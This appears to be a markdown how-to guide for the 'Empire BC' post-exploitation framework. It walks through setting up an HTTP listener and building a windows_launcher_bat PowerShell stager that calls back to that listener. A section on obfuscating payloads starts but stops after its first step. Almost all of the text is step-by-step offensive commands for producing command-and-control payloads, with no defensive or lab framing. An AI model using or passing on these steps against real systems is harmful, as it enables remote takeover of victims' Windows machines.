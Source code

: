 # Empire BC - PowerShell Payload Generation Guide

This document provides a detailed guide to generating PowerShell payloads using the Empire BC post-exploitation framework. 
The steps and commands are sourced from the official documentation and credible examples.

------------------------------------------------------------------------------------------------------------------------------------------------------------

## Setting Up a Listener

Before generating a payload, you must configure a listener. The listener acts as the point of communication between the payload and the Empire server.

1. **List Available Listeners**:
    ```bash
    listeners
    ```

2. **Create an HTTP Listener**:
    ```bash
    uselistener http
    ```

3. **Configure Listener Settings**:
    ```bash
    set Name MyHttpListener
    set Port 8080
    execute
    ```

------------------------------------------------------------------------------------------------------------------------------------------------------------

## Generating PowerShell Payloads with Empire BC

### Inline PowerShell Payload with Empire BC

Use this to generate a PowerShell command that can be executed directly in a target's shell.

1. **Select the Stager**:
    ```bash
    usestager windows_launcher_bat
    ```

2. **Bind the Stager to the Listener**:
    ```bash
    set Listener MyHttpListener
    execute
    ```
------------------------------------------------------------------------------------------------------------------------------------------------------------

### Inline PowerShell Payload with Obfuscation in Empire BC
1. **Select the Stager**:
    ```bash
    usestager windows_launcher_bat
    ```

